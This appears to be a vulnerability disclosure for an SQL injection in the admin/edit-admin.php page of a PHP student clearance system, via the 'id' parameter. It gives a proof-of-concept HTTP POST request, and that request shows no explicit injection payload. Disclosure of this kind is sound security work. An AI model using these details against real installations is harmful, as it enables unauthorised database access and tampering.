


The Online Student Clearance System has an SQL injection vulnerability. Attackers can exploit this vulnerability to steal information or damage the database without authentication.


Source code address：https://www.sourcecodester.com/php/17892/online-clearance-system.html


The vulnerability is located in the /admin/edit-admin.php file. As can be seen in the code, the parameter 'id' obtains the administrator ID to be modified, and the input value is escaped through 'mysqli_real_escape_string' when processing form submissions. Finally, the SQL update statement is executed to modify the contents in the database.




Vulnerability verification：

```
POST /student_clearance/admin/edit-admin.php?id=11 HTTP/1.1
Host: 192.168.1.8
Content-Length: 477
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.8
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryb9i93HDoXzXN1Tik
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryb9i93HDoXzXN1Tik
Content-Disposition: form-data; name="txtfullname"

EKE, EMMANUEL EFA-EVAL
------WebKitFormBoundaryb9i93HDoXzXN1Tik
Content-Disposition: form-data; name="txtemail"

eva_2012@gmail.com
------WebKitFormBoundaryb9i93HDoXzXN1Tik
Content-Disposition: form-data; name="cmddesignation"

Admin
------WebKitFormBoundaryb9i93HDoXzXN1Tik
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryb9i93HDoXzXN1Tik--

```

 


